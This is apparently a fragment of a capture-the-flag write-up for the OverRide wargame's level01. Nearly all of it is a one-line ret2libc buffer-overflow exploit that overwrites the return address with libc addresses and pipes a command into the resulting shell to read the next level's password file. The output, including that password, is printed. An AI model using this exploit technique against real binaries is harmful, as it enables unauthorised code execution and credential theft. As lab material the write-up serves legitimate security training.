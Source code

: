 ```gdb
```
```shell
level01@OverRide:~$ (python -c "import struct; print('dat_wil\n' + 'A'*80 + struct.pack('I', 0xf7e6aed0) + struct.pack('I', 0xf7e5eb70) + struct.pack('I', 0xf7f897ec))"; echo 'cat /home/users/$(whoami)/.pass') | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

